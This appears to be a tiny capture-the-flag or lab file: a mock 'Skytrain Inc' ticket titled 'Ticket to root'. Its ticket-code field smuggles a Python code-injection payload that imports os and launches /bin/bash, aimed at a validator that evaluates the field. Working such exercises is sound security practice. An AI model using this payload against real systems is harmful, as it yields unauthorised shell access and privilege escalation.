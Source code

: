 # Skytrain Inc   
## Ticket to root  
__Ticket Code:__  
**102+ 10 == 112 and __import__('os').system('/bin/bash') == False 

